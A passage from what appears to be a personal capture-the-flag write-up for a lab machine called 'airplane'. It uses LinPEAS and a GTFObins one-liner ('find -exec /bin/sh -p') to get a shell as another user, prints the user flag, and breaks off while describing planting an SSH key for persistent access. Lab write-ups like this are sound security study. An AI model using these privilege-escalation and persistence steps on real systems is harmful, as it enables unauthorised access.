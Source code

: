 ```bash
```

## LinPEAS 

We can use [LinPEAS](../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md) to find vulnerabilities, lit will find we can run `find` as sudo .
## GTFObins

We can go to [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) and find what we need to escalate :

![Pasted image 20250722163428.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250722163428.png)

So let's give that a shot :

```bash
hudson@airplane:~$ /usr/bin/find -exec /bin/sh -p \; -quit
$ whoami
carlos
$ ls
app  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
$ cd ..
$ ls
carlos  hudson
$ cd carlos
$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
$ cat user
cat: user: No such file or directory
$ cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

We can access `carlos` on ssh to have a more stable shell without stabilizing it, we'll follow the same path as other user, echo our public key in .ssh folder :
